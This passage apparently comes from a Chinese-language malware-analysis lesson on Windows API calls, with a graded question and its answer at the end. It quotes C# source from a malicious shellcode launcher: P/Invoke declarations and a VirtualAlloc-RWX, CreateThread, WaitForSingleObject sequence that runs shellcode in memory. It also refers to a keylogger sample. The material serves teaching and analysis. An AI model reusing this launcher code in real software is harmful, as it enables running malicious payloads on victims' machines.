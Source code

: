 了解键盘记录器的目标和过程，然后根据以上代码片段分配相应的 API 调用。

利用 [Windows API index - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list) 和以上片段的上下文，开始分析键盘记录器，使用问题 1 到 4 作为指导，逐步研究样本。

### Shellcode 启动器

对于 Shellcode 启动器，开始分析它所实现的 API 调用，这个过程应该与之前的案例研究类似。以下是恶意样本源代码中的 P/Invoke 定义片段。

```csharp
private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
```

以下是每个 API 调用及其相应用途的解释。

|      API Call       |                        Explanation                         |
| :-----------------: | :--------------------------------------------------------: |
|    VirtualAlloc     | 在调用进程的虚拟地址空间中保留、提交或更改页面区域的状态。 |
| WaitForSingleObject |        等待直到指定的对象处于信号状态或超时时间到达        |
|    CreateThread     |        创建一个线程，在调用进程的虚拟地址空间内执行        |

现在我们将分析 shellcode 是如何被写入并在内存中执行的。

```csharp
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
return;
```

让我们了解 shellcode 执行的目标和流程，然后根据以上片段分配相应的 API 调用。

利用 [Windows API index - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-api-list) 和以上片段的上下文，开始分析 shellcode 启动器，使用问题 5 到 8 作为指南，逐步研究样本。

:::info Answer the questions below

在键盘记录器示例中，使用了哪个 Win32 API 调用来获取当前进程的伪句柄？

```plaintext
GetCurrentProcess
```
